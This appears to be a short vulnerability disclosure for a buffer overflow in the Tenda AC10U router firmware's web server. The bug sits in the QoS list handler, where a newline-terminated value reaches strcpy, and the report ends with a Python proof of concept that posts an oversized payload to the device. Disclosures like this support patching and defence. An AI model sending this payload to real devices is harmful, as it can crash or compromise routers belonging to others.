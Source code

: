 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](9.png)

get value from list ,send to setQosMiblist

![](10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
